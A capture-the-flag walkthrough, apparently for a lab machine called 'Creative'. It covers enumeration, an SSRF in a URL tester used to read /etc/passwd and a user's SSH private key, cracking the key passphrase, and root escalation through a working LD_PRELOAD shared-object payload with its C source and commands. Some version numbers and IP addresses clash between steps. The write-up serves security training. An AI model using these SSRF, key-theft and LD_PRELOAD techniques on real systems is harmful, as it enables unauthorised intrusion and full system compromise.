

## Enumeration
```sh
➜ nmap -sCV 10.10.36.137
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-24 11:03 EST
Nmap scan report for creative.thm (10.10.36.137)
Host is up (0.11s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a0:5c:1c:4e:b4:86:cf:58:9f:22:f9:7c:54:3d:7e:7b (RSA)
|   256 47:d5:bb:58:b6:c5:cc:e3:6c:0b:00:bd:95:d2:a0:fb (ECDSA)
|_  256 cb:7c:ad:31:41:bb:98:af:cf:eb:e4:88:7f:12:5e:89 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Creative Studio | Free Bootstrap 4.3.x template
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.45 seconds
```

>  - Port 22 :
    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.7
    (Ubuntu Linux; protocol 2.0)
>  - Port 80 :
    80/tcp open http nginx 1.14.0 (Ubuntu)

Let’s check the HTTP port ( port number 80 ) by going to →
> - When trying to access Port 80 ( http://creative.thm )


```c
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters

10.10.231.114   creative.thm
```

> Let’s do a Sub-Domain Brute Force ( FFUF )

```sh
➜  ~ gobuster vhost -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://creative.thm --append-domain
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://creative.thm
[+] Method:          GET
[+] Threads:         10
[+] Wordlist:        /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: beta.creative.thm Status: 200 [Size: 591]
```
> - Now after adding the Sub-Domain entry to /etc/hosts
> - Let’s check the page →


In browser we see the webpage for Beta URL Tester with an input box and submit button

> - Enter the url http://localhost —( localhost is creative.thm the target) into the input box. we get the HTML of the creative.thm website:


lets try http://localhost:port to see if there are any other HTTP services that are not accessible from outside?

We going to use Burps intruder to scan through the top 50 ports to see if any the ports are accessible.

google 50 common ports https://www.geeksforgeeks.org/50-common-ports-you-should-know/

- make a text file with the top 50 tcp ports

> - Now open Burp Suite, turn on foxy proxy — firefox extension — set to port 8080 and 127.0.0.1
> - Turn on intercept in burp and capture the request http://localhost:port
> - Now right click request and send to intruder
> - Change url=http://localhost:§80§/ at the bottom of the request. The § can be added from the left side.

> - Click on payloads and load thetext file created for top 50 ports — top_50_tcp_ports. Then start attack
> - Can see from the attack that port 1337 has a different length to all others and when clicked on the response it shows details — the directory listing for the target. So port 1337 is the port we can use to find more info about the target.


## SSH

**STAP 1**
- Now in the browser disable foxy proxy and on the webpage for beta.creative.thm input ```http://localhost:1337/etc/passwd``` and submit For show ```Users``` in THis Server :


**STEP 2**
- Now search for the user saad id_rsa private ssh key. Input ```http://localhost:1337/home/saad/.ssh/id_rsa``` and submit:


**STEP 3**
> - Now to find the passphrase so we can ssh into the target
> - change the permissions of id_rsa to be more secure
> - Locate ssh2john — found its in the location ```/usr/share/john/ssh2john.py```
> - Run that ```ssh2john``` with python and save to file password.hash
> - ```python3 /usr/share/john/ssh2john.py id_rsa > password.hash```

**STEP 4**
- So now ssh into the target with the cmd ```ssh -i id_rsa saad@10.10.59.12```

```sh
➜ ssh -i id_rsa saad@10.10.36.137          
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 24 Dec 2024 03:18:44 PM UTC

  System load:  0.0               Processes:             120
  Usage of /:   57.5% of 8.02GB   Users logged in:       1
  Memory usage: 54%               IPv4 address for eth0: 10.10.36.137
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

58 updates can be applied immediately.
33 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Tue Dec 24 14:56:51 2024 from 10.21.102.133
saad@m4lware:~$ id
uid=1000(saad) gid=1000(saad) groups=1000(saad)
```
> - can see file .bash_history. Lets check that out
```sh
saad@m4lware:~$ cat .bash_history 
whoami
pwd
ls -al
ls
cd ..
sudo -l
echo "saad:M*************************" > creds.txt
rm creds.txt
sudo -l
whomai
whoami
ls -al
```
## Privilege Escalation

 - First thing well try is sudo -l with the password found
 ```sh
 saad@m4lware:~$ sudo -l
[sudo] password for saad: 
Matching Defaults entries for saad on m4lware:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, 
    env_keep+=LD_PRELOAD

User saad may run the following commands on m4lware:
    (root) /usr/bin/ping
```

 - success found user saad can run /usr/bin/ping as root
 - Also can see ```env_keep+=LD_PRELOAD```

> - Search in Google *Linux Privilege Escalation using LD_Preload* 
> - [I Found This Article](https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/) 
> - Let’s generate a C-program file inside /tmp directory.

```sh
saad@m4lware:~$ cd /tmp
saad@m4lware:/tmp$ nano shell.c
```
> - Put This Shell :
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
```
> - Now Put This Command :
```sh
saad@m4lware:/tmp$ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
shell.c: In function ‘_init’:
shell.c:6:1: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    6 | setgid(0);
      | ^~~~~~
shell.c:7:1: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    7 | setuid(0);
      | ^~~~~~
saad@m4lware:/tmp$ ls -al shell.so
-rwxrwxr-x 1 saad saad 14760 Dec 24 16:32 shell.so
saad@m4lware:/tmp$ sudo LD_PRELOAD=/tmp/shell.so ping
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

**GOOD LUCK**